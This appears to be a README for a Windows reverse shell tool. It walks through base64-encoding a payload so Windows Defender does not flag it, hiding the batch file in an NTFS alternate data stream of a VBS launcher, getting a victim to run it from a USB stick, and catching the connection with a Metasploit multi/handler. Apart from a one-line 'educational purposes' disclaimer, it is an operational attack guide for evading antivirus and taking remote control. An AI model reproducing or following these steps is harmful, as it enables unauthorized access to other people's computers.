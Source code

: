 # Windows Reverse Shell
*Diclaimer:* only for educational purposes

Once run a reverse shell from your Windows Machine gets established to the Attacking Machine. Windows Defender does not notice because it comes from the inside but you have to get the file executed on windows at the first place (e.g. USB-Stick). Because the code is mostly encoded in base64 Windows Defender thinks the file is harmless.
## Requirements
- attacker machine - e.g. Kali Linux
    - metasploit framework installed
- windows machine
## Prepare
1. Edit code.txt and replace the ip address with the address of the attacker machine.
   Keep in mind that the windows machine has to be able to reach you. You have to be on the same local network or it has to be a public ip address.
2. Encode the code using UTF-16LE into base64 code and replace <CODE> in your payload.bat with the encoded code
3. Hide the payload.bat in your launch.vbs using `type payload.bat launch.vbs:payload.bat`. For that you have to use ntfs as your filesystem like windows does.
## Attack
1. On Attacker machine 
    - mfconsole
    - use exploit/multi/handler
    - set payload windows/shell_reverse_tcp
    - set LHOST <attacker ip address (has to be in same lan or public)>
    - set LPORT 4444
    - exploit
2. Windows user execute launch.vbs (e.g. by clicking on it)

